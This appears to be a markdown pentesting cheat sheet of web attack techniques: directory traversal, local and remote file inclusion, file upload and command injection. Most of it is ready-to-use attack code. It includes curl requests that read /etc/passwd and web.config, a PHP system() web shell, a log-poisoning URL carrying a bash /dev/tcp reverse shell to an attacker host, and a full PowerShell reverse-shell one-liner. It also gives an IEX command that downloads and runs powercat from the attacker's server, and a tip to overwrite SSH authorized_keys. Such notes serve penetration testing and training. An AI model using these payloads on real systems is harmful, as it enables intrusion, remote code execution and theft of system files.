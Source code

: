 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd` \
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

### Local file inclusion

Php snippet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

Wrappers:
- all: https://www.php.net/manual/en/wrappers.php
- php: https://www.php.net/manual/en/wrappers.php.php
- data: https://www.php.net/manual/en/wrappers.data.php

Examples:
```
curl http://site/index.php?page=php://filter/resource=somepage.php
curl http://site/index.php?page=php://filter/convert.base64-encode/resource=somepage.php
curl http://site/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl http://site/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Remote file inclusion

Examples:
- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
kali$ python -m http.server 80
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/simple-backdoor.php&cmd=ls"
kali$ nc -lnvp 4444
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/php_reverse_shell.php"
```

Interactive TTY: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
```

## File upload

Test rarer extensions and upper/lowercase mix. \
Powershell reverse shell: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('$AttackerIp',$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Beware of simple and double quotes... \
Webshells on Kali: `/usr/share/webshells` (ASP: `webshells/asp` and `webshells/aspx`. Upload and type `http://vulnsite:xyz/cmdasp.aspx`)

Overwrite ssh keys in `/home/someuser/.ssh/authorized_keys`

## Command injection

Cmd or PowerShell: ``(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`` \
Invoke-Expression, or IEX: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.3 \
PowerCat: 
- on GitHub: https://github.com/besimorhino/powercat/blob/master/powercat.ps1
- in Kali: `/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1`
```
IEX (New-Object System.Net.Webclient).DownloadString("http://$AttackerIp/powercat.ps1");powercat -c $AttackerIp -p $AttackerPort -e powershell
```

Url encoding: https://www.url-encode-decode.com/ 
